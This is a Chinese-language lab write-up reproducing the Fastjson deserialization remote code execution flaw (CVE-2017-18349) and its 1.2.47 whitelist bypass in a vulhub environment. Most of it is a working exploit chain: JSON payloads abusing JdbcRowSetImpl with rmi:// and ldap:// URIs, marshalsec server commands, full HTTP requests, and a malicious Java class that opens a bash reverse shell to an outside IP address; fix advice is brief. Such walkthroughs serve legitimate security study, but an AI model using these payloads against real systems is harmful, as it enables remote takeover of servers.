







## CVE-2017-18349Fastjson反序列化

parseObject in Fastjson before 1.2.25, as used in FastjsonEngine in Pippo 1.11.0 and other products, allows remote attackers to execute arbitrary code via a crafted JSON request, as demonstrated by a crafted rmi:// URI in the dataSourceName field of HTTP POST data to the Pippo /json URI, which is mishandled in AjaxApplication.java.

Fastjson < 1.2.25

### 漏洞原理

FastJson是阿里巴巴的开源JSON解析库，它可以解析JSON格式的字符串，支持将Java Bean序列化为JSON字符串，也可以从JSON字符串反序列化到JavaBean。

> **JavaBeans**是[Java](https://zh.wikipedia.org/wiki/Java)中一种特殊的[类](https://zh.wikipedia.org/wiki/类_(计算机科学))，可以将多个[对象](https://zh.wikipedia.org/wiki/对象_(计算机科学))封装到一个对象（bean）中。特点是可[序列化](https://zh.wikipedia.org/wiki/序列化)，提供[无参构造器](https://zh.wikipedia.org/w/index.php?title=无参构造器&action=edit&redlink=1)，提供[getter方法和setter方法](https://zh.wikipedia.org/wiki/赋值方法)访问对象的属性。

Fastjson提供了autotype功能，**允许用户在反序列化数据中通过“@type”指定反序列化的Class类型**。

Fastjson中也支持指定类的反序列化，只需要在json的key中添加`@type`即可

~~~
{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://101.43.138.109:1099/TouchFile",
        "autoCommit":true
    }
}
~~~

`JdbcRowSetImpl`这个类的`dataSourceName`支持传入一个rmi的源。当解析这个uri的时候，就会支持rmi远程调用，去指定的rmi地址中去调用方法。

对JdbcRowSetImpl这个类进行反序列化，反序列化的对象从攻击者搭建的RMI源获取。

> Java的RMI远程调用是指，一个JVM中的代码可以通过网络实现远程调用另一个JVM的某个方法。RMI是Remote Method Invocation的缩写。Java的RMI依赖序列化和反序列化，而这种情况下可能会造成严重的安全漏洞，因为Java的序列化和反序列化不但涉及到数据，还涉及到二进制的字节码，即使使用白名单机制也很难保证100%排除恶意构造的字节码。
>
> 在上次shiro反序列化漏洞的复现中使用了RMI的底层协议JRMP

### 漏洞复现

使用vulhub fastjson/1.2.24-rce环境

复现此漏洞需要本地编译一个java class文件，使靶机通过RMI服务远程加载此恶意类，执行其中的代码。

~~~
javac TouchFile.java
~~~

~~~java
import java.lang.Runtime;
import java.lang.Process;
public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success177"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
~~~

还需要使用marshalsec项目，可以在本地快速开启RMI和LDAP服务。

~~~
proxychains git clone https://github.com/mbechler/marshalsec
apt-get install maven
cd marshalsec
proxychains mvn clean package -DskipTests
~~~

> mvn编译报错No compiler is provided in this environment. Perhaps you are running on a JRE rather than a JDK?
>
> Ubuntu默认安装的是jdk8-jre，安装jdk8  apt-get install openjdk-8-jdk

~~~
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://101.43.138.109:2333/#TouchFile" 1099
~~~

在TouchFile.class目录下使用python搭建一个web服务，使能访问到TouchFile类

~~~
python3 -m http.server 2333
~~~

使用burp发送 payload，RMI将会把请求Redirect到Web服务，Fastjson将会下载Exploit.class，并解析运行

~~~
POST / HTTP/1.1
Host: 101.43.138.109:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/json
Connection: close
Content-Length: 164

{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://101.43.138.109:1099/TouchFile",
        "autoCommit":true
    }
}
~~~

服务器返回500错误，本地的RMI服务收到请求

python服务器收到请求，返回了TouchFile类

构造一个反弹shell的恶意class

~~~java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            Process pc = rt.exec("/bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/101.43.138.109/1770 0>&1");
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
~~~

~~~
javac TouchFil.java
~~~

反弹成功

ldap模式getshell

> ldap轻型目录访问协议，也是一种获取远程服务器上资源的协议

~~~
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://101.43.138.109:2333/#TouchFile" 1099
~~~

burp payload如下，其余过程和RMI模式相同

~~~
{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://101.43.138.109:1099/TouchFile",
        "autoCommit":true
    }
}
~~~

### 漏洞修复

升级jdk，目标使用高于以下版本的jdk时，ldap和RMI远程加载将无法利用

java官方觉得让服务去请求远程的类的确是一个很危险的操作，所以在后来的版本中默认将这个功能关掉了。

升级fastjson到1.2.25，fastjson 于1.2.24 版本后增加了反序列化白名单

---

https://www.kingkk.com/2019/07/Fastjson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E-1-2-24-1-2-48/

这篇文章介绍了漏洞出现后，Fastjson的补丁分析以及绕过方法。看来提升自己的代码能力，才能对漏洞有更深入的理解，不再依靠别人的payload，阅读源码可以大大提升漏洞利用的水平。这也是一些大佬只需看payload就知道漏洞原理的原因。

## Fastjson 1.2.47

在2019年6月，fastjson 又被爆出在 `fastjson< =1.2.47` 的版本中，攻击者可以利用特殊构造的 json 字符串绕过白名单检测。

攻击流程与先前版本相同，payload如下

~~~
POST / HTTP/1.1
Host: 101.43.138.109:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/json
Connection: close
Content-Length: 271

{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://101.43.138.109:1099/TouchFile",
        "autoCommit":true
    }
}
~~~

`fastjson`在1.2.68及之后的版本中引入了`safeMode`，配置`safeMode`后，无论白名单和黑名单，都不支持`autoType`，可一定程度上缓解反序列化Gadgets类变种攻击

